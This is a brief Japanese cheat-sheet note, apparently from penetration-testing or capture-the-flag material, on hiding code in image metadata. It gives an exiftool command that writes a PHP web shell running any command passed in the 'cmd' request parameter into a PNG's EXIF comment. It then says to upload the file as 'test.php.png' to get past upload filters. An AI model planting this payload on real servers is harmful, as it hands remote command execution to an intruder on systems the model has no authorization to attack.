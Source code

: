 # Other technic

## exif情報
exifに埋め込む

```
$ exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' test.png
```

これでtest.php.pngとしてupload
